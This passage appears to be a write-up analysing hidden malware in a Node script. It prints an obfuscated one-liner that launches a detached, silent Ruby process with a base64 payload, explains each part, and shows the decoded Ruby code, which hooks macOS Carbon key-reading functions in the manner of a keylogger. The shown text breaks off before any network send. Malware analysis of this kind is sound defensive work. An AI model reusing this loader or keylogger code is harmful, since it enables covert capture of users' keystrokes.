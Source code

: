 Here's the content (truncated):

```javascript
##!/usr/local/bin/node
try{let c=require("child_process").spawn("ruby", ["-W0"],{detached:true,stdio:["pipe","ignore","ignore"]});c.unref();c.stdin.end("YHBncmVwIC1meCAicnVieSAtV[...]IGVuZA==", "base64");}catch(e){}
```

So I unwrapped the code and I started to feel that something was awfully wrong.

```javascript
##!/usr/local/bin/node
try{

  let c = require("child_process")
    .spawn(
      "ruby",
      ["-W0"],
      {
        detached: true,
        stdio: ["pipe","ignore","ignore"]
      }
  );

  c.unref();

  c.stdin.end("YHBncmVwIC1meCAicnVieSAtV...IGVuZA==", "base64");

} catch(e) {

}
```

Quick decomposition:

- `"ruby", ["-W0"]` spawns a silent ruby instance (hid any warning).
- `detached: true` makes the ruby instance run in the background even after the node script finishes.
- `stdio: ["pipe","ignore","ignore"]` only enables `stdin`.
- `c.unref();` makes ruby's parent (this node script) not wait for its return to continue, effectively making it permanent.
- `c.stdin.end("...", "base64");` sends the string with `base64` encoding to the ruby instance.

## Down the Ruby hole

Un-`base64`-ing the string to find the ruby payload running:

```ruby

`pgrep -fx "ruby -W0"`.empty ? || exit

require 'net/http'
require 'Base64'
require 'dl/import'

module Carbon
  extend DL::Importer
  dlload '/System/Library/Frameworks/Carbon.framework/Carbon'
  extern 'unsigned long CopyProcessName(const ProcessSerialNumber*,void*)'
  extern 'void GetFrontProcess(ProcessSerialNumber*)'
  extern 'void GetKeys(void*)'
  extern 'unsigned char CFStringGetCString(void*,void*,int,int)'
end

p = DL::CPtr.malloc(16)
n = DL::CPtr.malloc(16)
ns = DL::CPtr.malloc(80)
```